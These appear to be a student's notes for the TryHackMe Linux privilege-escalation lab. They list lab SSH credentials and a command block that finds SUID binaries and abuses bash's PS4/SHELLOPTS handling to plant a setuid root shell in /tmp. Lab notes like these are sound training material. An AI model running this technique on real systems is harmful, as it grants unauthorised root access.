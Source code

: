 # TEST SETUP/ENVIRONMENT

## TRYHACKME

https://tryhackme.com/room/linuxprivesc

ssh user@1.1.1.1

ssh -oHostKeyAlgorithms=+ssh-dss user@1.1.1.1

pass:password321


# MANUAL ENUMERATION 

# AUTOMATED ENUMERATION 

# MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 



## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```
